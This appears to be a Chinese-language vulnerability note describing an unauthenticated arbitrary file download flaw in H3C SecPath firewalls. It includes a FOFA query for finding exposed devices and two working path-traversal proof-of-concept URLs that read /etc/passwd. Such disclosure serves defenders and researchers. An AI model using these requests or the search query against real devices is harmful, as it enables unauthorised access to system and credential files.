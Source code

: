 ```yaml
---
title: H3C SecPath 下一代防火墙  任意文件下载漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - H3C
---
```


# H3C SecPath 下一代防火墙  任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> H3C SecPath

## FOFA

> [!NOTE]
>
> title="Web user login"

## 漏洞复现

登录页面如下

![image-20210604115315360](/img/20210924020309455898.png)

存在漏洞点的功能有两个

![image-20210604115351314](/img/20210924020311373535.png)

点击下载抓包更改请求

![image-20210604115431531](/img/20210924020311860108.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd 
```

​	